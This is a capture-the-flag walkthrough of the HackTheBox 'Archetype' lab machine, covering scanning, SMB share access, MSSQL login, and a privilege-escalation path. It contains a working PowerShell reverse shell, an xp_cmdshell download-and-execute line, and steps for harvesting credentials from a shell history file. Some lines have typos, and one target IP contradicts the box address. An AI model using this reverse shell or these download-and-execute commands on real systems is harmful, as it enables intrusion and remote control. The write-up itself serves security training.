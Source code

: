 # HackTheBox Archetype
## Scanning

Initial scan

```bash
nmap 10.10.10.27 -oN init_nmap.log
```

Service discovery and default scripts on found ports

```bash
nnamp 10.10.10.27 -sV -sC -p 135,139,445,1433,1434 -oN portscan_nmap.log
```

## Connecting with smb

Connect to backup folder

```bash
smbclient \\\\10.10.10.27\\backups -N
```

Get the file

```bash
get prod.dtsConfig
```

## Logging into MSSQL service

Open metasploit and select the MSSQL Login module

```bash
use scanner/mssql/mssql_login
set RHOST 10.10.10.27
set PASSWORD M3g4c0rp123
set USERNAME sql_svc
set DOMAIN ARCHETYPE
exploit
```

## Getting a reverse shell

Starting netcat

```bash
nc -lvnp 420
```

Starting a python server to download the reverse shell payload

```bash
python3 -m http.server
```

Setting up the revese payload. This has to be in a `ps1` file, in this case the `file.ps1` file

```ps
 $client = New-Object System.Net.Sockets.TCPClient("10.10.14.147",420);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

Executing the download on the MSSQL server

```sql
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.147:8000/file.ps1\");"
```

## Searching for possible interesting files

Powershell script to get all files and exclude directories

```ps
gci -Force -Recurse | where {! $_.PSIsContainer}
```

Getting the user flag

```bash
cat C:\Users\sql_svc\Desktop\user.txt
```

Getting smb Admin accounts

```bash
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## Getting the admin flag

Logging in as admin with the found credentials

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.37
```

Reading the root flag

```
type C:\Users\Administrator\Desktop\root.txt
```
